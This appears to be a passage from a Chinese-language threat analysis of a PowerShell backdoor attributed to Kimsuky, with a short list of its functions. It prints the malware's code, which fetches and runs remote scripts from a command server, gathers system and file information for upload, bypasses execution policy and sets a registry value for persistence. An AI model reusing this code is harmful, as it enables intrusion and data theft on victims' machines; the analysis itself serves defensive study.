 ```
function Download
$downname = $LocalID + ".down"
$delphppath = $SERVER_ADDR + "del.php"
$downpsurl = $SERVER_ADDR + $downname
$codestring = (New-Object System.Net.WebClient).DownloadString($downpsurl)
$comletter = decode $codestring
$decode = $executioncontext.InvokeCommand.NewScriptBlock($comletter)
$RunningJob = Get-Job -State Running
if($RunningJob.count -lt 3)
$JobName = $RunningJob.count + 1
Start-Job -ScriptBlock $decode -Name $JobName
$JobName = $RunningJob.count
Stop-Job -Name $RunningJob.Name
Remove-Job -Name $RunningJob.Name
$down_Server_path = $delphppath + "
filename=$LocalID"
$response = [System.Net.WebRequest]::Create($down_Server_path).GetResponse()
$response.Close()
function Get_info($logpath)
Get-ChildItem ([Environment]::GetFolderPath("Recent")) &gt;&gt; $logpath
dir $env:ProgramFiles &gt;&gt; $logpath
dir "C:\Program Files (x86)" &gt;&gt; $logpath
systeminfo &gt;&gt; $logpath
tasklist &gt;&gt; $logpath
function main
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
$FilePath = $env:APPDATA + $LOG_FILEPATH
New-Item -Path $FilePath -Type directory -Force
$szLogPath = $FilePath + $LOG_FILENAME
$key = Get-Item -Path $RegKey
$exists = $key.GetValueNames() -contains $RegValueName
if($exists -eq $False)
$value1 = New-ItemProperty -Path $RegKey -Name $RegValueName
Get_info $szLogPath
while ($true)
FileUploading $szLogPath
Start-Sleep -Milliseconds 10000
Download
Start-Sleep -Milliseconds $TIME_VALUE

```

其中包含了KimSuky常用的协议：$boundary = “——WebKitFormBoundarywhpFxMBe19cSjFnG”

格式化一下这段Powershell代码，可以发现定义了如下几个函数：<br>
decode 用于解码<br>
UpLoadFunc 上传数据<br>
FileUploading 调用UpLoadFunc进行上传<br>
Download 下载文件到本地执行<br>
Get_info 获取当前计算机的一些基本信息<br>
main 主函数

